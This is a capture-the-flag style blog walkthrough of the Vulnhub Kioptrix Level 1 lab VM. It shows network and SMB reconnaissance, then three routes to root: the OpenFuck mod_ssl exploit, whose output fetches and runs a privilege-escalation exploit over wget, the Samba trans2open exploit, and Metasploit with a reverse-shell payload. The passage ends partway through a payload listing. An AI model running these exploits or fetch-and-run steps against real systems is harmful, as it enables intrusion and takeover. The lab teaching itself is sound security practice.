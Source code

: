 ```yaml
---
layout: post
title: "Vulnhub: K1optr1x 1"
categories: vulnhub
author: "dib"
permalink: /vulnhub/kp1/
tags: vulnhub
---
```

> "Learning is not attained by chance. It must be sought for with ardor and attended with diligence." – Abigail Adams  
  
We'll be doing the first level of Vulnhub's K1optr1x series. You can download the machine here [K1optr1x: Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)  

![][1]  

### 0x00 Recon

<details>
  <summary>
    get vm's IP
  </summary>
  
<pre>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> sudo arp-scan 192.168.222.0/24  
[sudo] password for imd:   
Interface: eth0, type: EN10MB, MAC: 00:0c:29:30:67:4e, IPv4: 192.168.222.129  
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)  
192.168.222.1   00:50:56:c0:00:08       VMware, Inc.  
192.168.222.2   00:50:56:e7:41:94       VMware, Inc.  
192.168.222.130 00:0c:29:2f:e1:7        VMware, Inc.  
192.168.222.254 00:50:56:e4:e3:5b       VMware, Inc.  
</pre>  
</details>  
  
Target IP Address: 192.168.222.130

### 0x01 Scanning

Let's first scan it using NMAP. If you want to know what my nmap commands are doing, go check it [here](https://nmap.org/book/man-briefoptions.html) 

<details>
  <summary>
    nmap scan
  </summary>

<pre>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> nmap -Pn -n -vvvv -sV -p- 192.168.222.130
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-05 05:58 EST
NSE: Loaded 45 scripts for scanning.
Initiating Connect Scan at 05:58
Scanning 192.168.222.130 [65535 ports]
Discovered open port 22/tcp on 192.168.222.130
Discovered open port 80/tcp on 192.168.222.130
Discovered open port 139/tcp on 192.168.222.130
Discovered open port 443/tcp on 192.168.222.130
Discovered open port 111/tcp on 192.168.222.130
Discovered open port 1024/tcp on 192.168.222.130
Completed Connect Scan at 05:59, 9.91s elapsed (65535 total ports)
Initiating Service scan at 05:59
Scanning 6 services on 192.168.222.130
Completed Service scan at 05:59, 14.04s elapsed (6 services on 1 host)
NSE: Script scanning 192.168.222.130.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 05:59
Completed NSE at 05:59, 2.07s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 05:59
Completed NSE at 05:59, 2.01s elapsed
Nmap scan report for 192.168.222.130
Host is up, received user-set (0.0016s latency).
Scanned at 2020-12-05 05:58:58 EST for 29s
Not shown: 65529 closed ports
Reason: 65529 conn-refused
PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        syn-ack Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     syn-ack 2 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   syn-ack Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      syn-ack 1 (RPC #100024)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.65 seconds
</pre>  
</details>  
  
There are 6 open ports and the services running under each port. Let's check each open port. port 80 is open. Opened firefox and simply browse to http://192.168.222.130  

[![][2]][2]

It's a test page, I viewed the source code and there's nothing much I can find. We can attempt to scan if there are hidden files and directories but I don't think this is the way it was built by the creator. 

<details>
  <summary>
    dirb scan
  </summary>

<pre>
<b>imd@kali:~$</b> dirb http://192.168.222.130

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Dec 10 13:14:09 2020
URL_BASE: http://192.168.222.130/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.222.130/ ----
+ http://192.168.222.130/~operator (CODE:403|SIZE:273)                                                                                                               
+ http://192.168.222.130/~root (CODE:403|SIZE:269)                                                                                                                   
+ http://192.168.222.130/cgi-bin/ (CODE:403|SIZE:272)                                                                                                                
+ http://192.168.222.130/index.html (CODE:200|SIZE:2890)                                                                                                             
==> DIRECTORY: http://192.168.222.130/manual/                                                                                                                        
==> DIRECTORY: http://192.168.222.130/mrtg/                                                                                                                          
==> DIRECTORY: http://192.168.222.130/usage/                                                                                                                                                       
---- Entering directory: http://192.168.222.130/manual/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                  
---- Entering directory: http://192.168.222.130/mrtg/ ----
+ http://192.168.222.130/mrtg/index.html (CODE:200|SIZE:17318)                                                                                                                                                    
---- Entering directory: http://192.168.222.130/usage/ ----
+ http://192.168.222.130/usage/index.html (CODE:200|SIZE:4262)      

-----------------
END_TIME: Thu Dec 10 13:14:59 2020
DOWNLOADED: 13836 - FOUND: 6

</pre> 
</details>  
  
~root and ~operator is forbidden, manual dir are just manual docs, the rest are not found or nothing interesting. Now let's dig deeper and scan the web using Nikto.  

<details>
  <summary>
    scanning phase
  </summary>

<pre>
<b>imd@kali:~$</b> nikto -h http://192.168.222.130
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.222.130
+ Target Hostname:    192.168.222.130
+ Target Port:        80
+ Start Time:         2020-12-05 06:01:50 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.1.1). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
<u>+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.</u>
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS).
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
+ /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
+ /shell?cat+/etc/hosts: A backdoor was identified.
+ 8724 requests: 0 error(s) and 30 item(s) reported on remote host
+ End Time:           2020-12-05 06:02:37 (GMT-5) (47 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

</pre>
</details>  
  
Web server is apache 1.3.20 and VM is running Red Hat Linux. possible remote shell on mod_ssl 2.8.4-7. exploit-db is my preferred website searching CVEs  
[](https://www.exploit-db.com/exploits/764)

### 0x02 Method 1: Openfuck exploit

<details>
  <summary>
    searchsploit result
  </summary>

<pre>
<b>imd@kali:~$</b> searchsploit OpenFuckV2
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                                          | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                          | unix/remote/47080.c
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
</pre>  
</details>  
  
So now we know OpenFuck exploit, download it and let's follow the instruction inside the comment block. I've downloaded the updated version by typing the command `searchsploit -m 47080.c`

<details>
  <summary>
    compile openfuck
  </summary>

<pre>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit -m 47080.c
  Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
      URL: https://www.exploit-db.com/exploits/47080
     Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix1/47080.c

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> mv 47080.c openfuck.c
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> sudo apt-get install libssl-dev
[sudo] password for imd: 
Reading package lists... Done
Building dependency tree       
Reading state information... Done
libssl-dev is already the newest version (1.1.1g-1+0~20200421.17+debian10~1.gbpf6902f).
0 upgraded, 0 newly installed, 0 to remove and 169 not upgraded.

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> gcc -o openfuck openfuck.c -lcrypto  
  
</pre>
</details>  
  
Run the exploit first to see the options how to use it. It requires you to input the offset, target IP, port, and number of connections. 
`Usage: ./openfuck target box [port] [-c N]`  

<details>
  <summary>
    openfuck result
  </summary>

<pre>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./openfuck
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./openfuck 0x6b 192.168.222.130 443 -c 50

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f82e0
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--14:57:47--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.66 KB/s

14:57:54 (1.66 KB/s) - `ptrace-kmod.c' saved [3921/3921]

gcc: file path prefix `/usr/bin' never used
[+] Attached to 7914
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
<p style="color:#05c820">
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
</p>
</pre>
</details>

There we have it, root access! You can go further changing the root password or create another user with root privileges for maintaning access but is not necessary since we already have root. Challenge complete.. Congrats!

<details>
  <summary>
    root access
  </summary>
  
<pre>
passwd root
New password: root
BAD PASSWORD: it is too short
Retype new password: root
Changing password for user root
passwd: all authentication tokens updated successfully
</pre>
</details>  
  
![][3]

### 0x03 Method 2: Samba exploit

Earlier we saw port 139 (Samba) is open. Let's scan what version it is and search for a possible exploit

<details>
  <summary>
    samba scan
  </summary>

<pre>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> nbtscan 192.168.222.130
Doing NBT name scan for addresses from 192.168.222.130

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
192.168.222.130  KIOPTRIX         <server>  KIOPTRIX         00:00:00:00:00:00

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> enum4linux -a 192.168.222.130
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Dec 10 16:12:25 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.168.222.130
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ======================================================= 
|    Enumerating Workgroup/Domain on 192.168.222.130    |
 ======================================================= 
[+] Got domain/workgroup name: MYGROUP

 =============================================== 
|    Nbtstat Information for 192.168.222.130    |
 =============================================== 
Looking up status of 192.168.222.130
        KIOPTRIX        <00> -         B <ACTIVE>  Workstation Service
        KIOPTRIX        <03> -         B <ACTIVE>  Messenger Service
        KIOPTRIX        <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        MYGROUP         <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        MYGROUP         <1d> -         B <ACTIVE>  Master Browser
        MYGROUP         <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ======================================== 
|    Session Check on 192.168.222.130    |
 ======================================== 
[+] Server 192.168.222.130 allows sessions using username '', password ''

 ============================================== 
|    Getting domain SID for 192.168.222.130    |
 ============================================== 
Domain Name: MYGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ========================================= 
|    OS information on 192.168.222.130    |
 ========================================= 
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.168.222.130 from smbclient: 
[+] Got OS info for 192.168.222.130 from srvinfo:
        KIOPTRIX       Wk Sv PrQ Unx NT SNT Samba Server
        platform_id     :       500
        os version      :       4.5
        server type     :       0x9a03

 ================================ 
|    Users on 192.168.222.130    |
 ================================ 
Use of uninitialized value $users in print at ./enum4linux.pl line 874.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 877.

Use of uninitialized value $users in print at ./enum4linux.pl line 888.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 890.

 ============================================ 
|    Share Enumeration on 192.168.222.130    |
 ============================================ 

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       IPC Service (Samba Server)
        ADMIN$          IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------
        KIOPTRIX             Samba Server

        Workgroup            Master
        ---------            -------
        MYGROUP              KIOPTRIX

[+] Attempting to map shares on 192.168.222.130
//192.168.222.130/IPC$  [E] Can't understand response:
NT_STATUS_NETWORK_ACCESS_DENIED listing \*
//192.168.222.130/ADMIN$        [E] Can't understand response:
tree connect failed: NT_STATUS_WRONG_PASSWORD

 ======================================================= 
|    Password Policy Information for 192.168.222.130    |
 ======================================================= 
[E] Unexpected error from polenum:


[+] Attaching to 192.168.222.130 using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: SMB SessionError: 0x5

[+] Trying protocol 445/SMB...

        [!] Protocol failed: [Errno Connection error (192.168.222.130:445)] [Errno 111] Connection refused


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 0


 ================================= 
|    Groups on 192.168.222.130    |
 ================================= 

[+] Getting builtin groups:
group:[Administrators] rid:[0x220]
group:[Users] rid:[0x221]
group:[Guests] rid:[0x222]
group:[Power Users] rid:[0x223]
group:[Account Operators] rid:[0x224]
group:[System Operators] rid:[0x225]
group:[Print Operators] rid:[0x226]
group:[Backup Operators] rid:[0x227]
group:[Replicator] rid:[0x228]

[+] Getting builtin group memberships:
Group 'Power Users' (RID: 547) has member: Couldn't find group Power Users
Group 'Users' (RID: 545) has member: Couldn't find group Users
Group 'Backup Operators' (RID: 551) has member: Couldn't find group Backup Operators
Group 'Print Operators' (RID: 550) has member: Couldn't find group Print Operators
Group 'Guests' (RID: 546) has member: Couldn't find group Guests
Group 'System Operators' (RID: 549) has member: Couldn't find group System Operators
Group 'Administrators' (RID: 544) has member: Couldn't find group Administrators
Group 'Replicator' (RID: 552) has member: Couldn't find group Replicator
Group 'Account Operators' (RID: 548) has member: Couldn't find group Account Operators

[+] Getting local groups:
group:[sys] rid:[0x3ef]
group:[tty] rid:[0x3f3]
group:[disk] rid:[0x3f5]
group:[mem] rid:[0x3f9]
group:[kmem] rid:[0x3fb]
group:[wheel] rid:[0x3fd]
group:[man] rid:[0x407]
group:[dip] rid:[0x439]
group:[lock] rid:[0x455]
group:[users] rid:[0x4b1]
group:[slocate] rid:[0x413]
group:[floppy] rid:[0x40f]
group:[utmp] rid:[0x415]

[+] Getting local group memberships:

[+] Getting domain groups:
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]

[+] Getting domain group memberships:
Group 'Domain Admins' (RID: 512) has member: Couldn't find group Domain Admins
Group 'Domain Users' (RID: 513) has member: Couldn't find group Domain Users

<b>imd@kali:~$</b> nmap --script smb-enum-shares -p 139 192.168.222.130
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-11 04:14 EST
Nmap scan report for 192.168.222.130
Host is up (0.00091s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn

Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds

<b>imd@kali:~$</b> smbmap -H 192.168.222.130 -P 139
[+] Guest session   .   IP: 192.168.222.130:139 Name: 192.168.222.130 

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> smbclient -L 192.168.222.130
Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful
Enter WORKGROUP\imd's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       IPC Service (Samba Server)
        ADMIN$          IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.
Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful

        Server               Comment
        ---------            -------
        KIOPTRIX             Samba Server

        Workgroup            Master
        ---------            -------
        MYGROUP              KIOPTRIX

</pre>
</details>  

Note: if you got an error `[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.` add this line on /etc/samba/smb.conf under [global] `client min protocol = CORE` it should look like this  

<details>
  <summary>
    smb.conf
  </summary>

```
#======================= Global Settings =======================

[global]

client min protocol = CORE


## Browsing/Identification ###

# Change this to the workgroup/NT-domain name your Samba server will part of
   workgroup = WORKGROUP      

```
</details>

Okay. We still can't figure out what is the samba version. Let's try other tools of the trade.
<details>
  <summary>
    smbver.sh
  </summary>

<pre>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./smbver.sh 192.168.222.130 139
192.168.222.130: 
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> 
</pre>
</details>

We tried to use [smbver.sh](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) but nothing happened. Opened up wireshark and after capturing the packets, run the script and now we see **Samba 2.2.1a**

[![][4]][4]

Credits: [https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)

<details>
  <summary>
    root access
  </summary>

<pre>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit samba 2.2.1
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                                                                        | osx/remote/9924.rb
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                                                                   | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                       | linux_x86/dos/36741.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit -m 10.c
  Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/10
     Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix1/10.c


<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> gcc -o samba 10.c
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./samba 
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./samba [-bBcCdfprsStv] [host]

-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step>       bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
-f              force
-p <port>       port to attack (default = 139)
-r <ret>        return address
-s              scan mode (random)
-S <network>    scan mode
-t <type>       presets (0 for a list)
-v              verbose mode

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./samba -b 0 192.168.222.130
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
<p style="color:#05c820">
uid=0(root) gid=0(root) groups=99(nobody)

whoami
root
</p>
</pre>
</details>

Searched for the exploit, download, compile, run. We're now root!

### 0x04 Method 3: Metasploit

<details>
  <summary>
    metasploit search
  </summary>

<pre>
<b>imd@kali:~$</b> msfconsole

Metasploit tip: Metasploit can be configured at startup, see msfconsole --help to learn more

[*] Starting persistent handler(s)...
<b>msf5 ></b> search samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
   0   auxiliary/admin/smb/samba_symlink_traversal                           normal     No     Samba Symlink Directory Traversal
   1   auxiliary/dos/samba/lsa_addprivs_heap                                 normal     No     Samba lsa_io_privilege_set Heap Overflow
   2   auxiliary/dos/samba/lsa_transnames_heap                               normal     No     Samba lsa_io_trans_names Heap Overflow
   3   auxiliary/dos/samba/read_nttrans_ea_list                              normal     No     Samba read_nttrans_ea_list Integer Overflow
   4   auxiliary/scanner/rsync/modules_list                                  normal     No     List Rsync Modules
   5   auxiliary/scanner/smb/smb_uninit_cred                                 normal     Yes    Samba _netr_ServerPasswordSet Uninitialized Credential State
   6   exploit/freebsd/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (*BSD x86)
   7   exploit/linux/samba/chain_reply                      2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   8   exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   9   exploit/linux/samba/lsa_transnames_heap              2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   10  exploit/linux/samba/setinfopolicy_heap               2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   11  exploit/linux/samba/trans2open                       2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   12  exploit/multi/samba/nttrans                          2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   13  exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution
   14  exploit/osx/samba/lsa_transnames_heap                2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   15  exploit/osx/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
   16  exploit/solaris/samba/lsa_transnames_heap            2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   17  exploit/solaris/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)
   18  exploit/unix/http/quest_kace_systems_management_rce  2018-05-31       excellent  Yes    Quest KACE Systems Management Command Injection
   19  exploit/unix/misc/distcc_exec                        2002-02-01       excellent  Yes    DistCC Daemon Command Execution
   20  exploit/unix/webapp/citrix_access_gateway_exec       2010-12-21       excellent  Yes    Citrix Access Gateway Command Execution
   21  exploit/windows/fileformat/ms14_060_sandworm         2014-10-14       excellent  No     MS14-060 Microsoft Windows OLE Package Manager Code Execution
   22  exploit/windows/http/sambar6_search_results          2003-06-21       normal     Yes    Sambar 6 Search Results Buffer Overflow
   23  exploit/windows/license/calicclnt_getconfig          2005-03-02       average    No     Computer Associates License Client GETCONFIG Overflow
   24  exploit/windows/smb/group_policy_startup             2015-01-26       manual     No     Group Policy Script Execution From Shared Resource
   25  post/linux/gather/enum_configs                                        normal     No     Linux Gather Configurations
</pre>
</details>

Search for the exploit. Interact with a module by name or index, `use 15` or `use exploit/linux/samba/trans2open`

<details>
  <summary>
    root access
  </summary>

<pre>
<b>msf5 ></b> use exploit/linux/samba/trans2open
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
<b>msf5 exploit(linux/samba/trans2open) ></b> show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.222.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


<b>msf5 exploit(linux/samba/trans2open) ></b> set RHOSTS 192.168.222.130
RHOSTS => 192.168.222.130
<b>msf5 exploit(linux/samba/trans2open) ></b> set LHOSTS 192.168.222.129
LHOSTS => 192.168.222.129
<b>msf5 exploit(linux/samba/trans2open) ></b> set RPORT 139
RPORT => 139
<b>msf5 exploit(linux/samba/trans2open) ></b> show payload
[-] Invalid parameter "payload", use "show -h" for more information
<b>msf5 exploit(linux/samba/trans2open) ></b> show payloads
<b>msf5 exploit(linux/samba/trans2open) ></b> show payloads

Compatible Payloads
===================

   #   Name                                      Disclosure Date  Rank    Check  Description
   -   ----                                      ---------------  ----    -----  -----------
   0   generic/custom                                             manual  No     Custom Payload
   1   generic/debug_trap                                         manual  No     Generic x86 Debug Trap
   2   generic/shell_bind_tcp                                     manual  No     Generic Command Shell, Bind TCP Inline
   3   generic/shell_reverse_tcp                                  manual  No     Generic Command Shell, Reverse TCP Inline
   4   generic/tight_loop                                         manual  No     Generic x86 Tight Loop
   5   linux/x86/adduser                                          manual  No     Linux Add User
   6   linux/x86/chmod                                            manual  No     Linux Chmod
   7   linux/x86/exec                                             manual  No     Linux Execute Command
   8   linux/x86/meterpreter/bind_ipv6_tcp                        manual  No     Linux Mettle x86, Bind IPv6 TCP Stager (Linux x86)
   9   linux/x86/meterpreter/bind_ipv6_tcp_uuid                   manual  No     Linux Mettle x86, Bind IPv6 TCP Stager with UUID Support (Linux x86)
